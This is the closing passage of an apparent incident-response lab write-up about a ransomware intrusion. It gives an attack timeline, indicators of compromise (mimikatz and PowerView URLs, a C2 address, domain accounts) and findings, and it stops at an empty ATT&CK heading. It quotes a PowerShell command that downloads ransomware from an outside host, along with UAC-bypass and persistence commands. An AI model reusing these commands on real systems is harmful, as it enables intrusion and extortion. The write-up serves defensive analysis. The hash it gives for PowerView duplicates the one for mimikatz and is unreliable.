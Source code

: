 | Aug 30, 2023 @ 01:53:13.738 | `Administrator` | Attacker downloads ransomware file | `"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "iwr http://ff.sillytechninja.io/ransomboogey.exe -outfile ransomboogey.exe"` |
| Aug 30, 2023 @ 01:53:33.815 | `Administrator` | Attacker executes ransomware file | `"C:\Users\Administrator\ransomboogey.exe"` |

---

## Indicators of Compromise (IOCs)

- **Domains / URLs:**
  - `https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip`
  - `https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1`
  - `http://ff.sillytechninja.io/ransomboogey.exe`  
- **IPs:**
  - `Host/Source IP: 10.10.155.159`
  - `C2: 165.232.170.151:80`
- **File hashes:**
  - `mimikatz SHA256:908b64b1971a979c7e3e8ce4621945cba84854cb98d76367b791a6e22b5f6d53`
  - `ransomboogey.exe SHA256:18158ede3f2892862cf2895e20b1495f7034f04fd63a36abfe8c944063617ab3`
  - `PowerView.ps1 SHA256:908b64b1971a979c7e3e8ce4621945cba84854cb98d76367b791a6e22b5f6d53`
- **Commands / processes:**
  - `xcopy.exe`
  - `Register-ScheduledTask Review -InputObject $D -Force`
  - `fodhelper.exe`
  - `whoami`
  - `mimikatz.exe` (various)
  - `net.exe localgroup administrators`
  - `ransomboogey.exe`
- **User accounts / services:**
  - `QUICKLOGISTICS\evan.hutchinson`
  - `QUICKLOGISTICS\itadmin`
  - `QUICKLOGISTICS\allan.smith`
  - `QUICKLOGISTICS\Administrator`

---

## Evidence & Artifacts

- Winlog logs through winlogbeat

---

## Analysis & Findings

- **Triage commands used:** N/A
- **Network analysis:**
  - Outbound traffic to `165.232.170.151` in C2 connection
  - tools downloaded and used such as `mimikatz`, `PowerView`, `ransomboogey`
- **Host analysis:**
  - usage of `whoami`, `net`, `fodhelper`, `mimikatz`
  - persistance established using scheduled tasks and C2 connection
  - outputting (`cat`) of proprietary `IT_Automation.ps1` file
- **MITRE ATT&CK mapping:**
  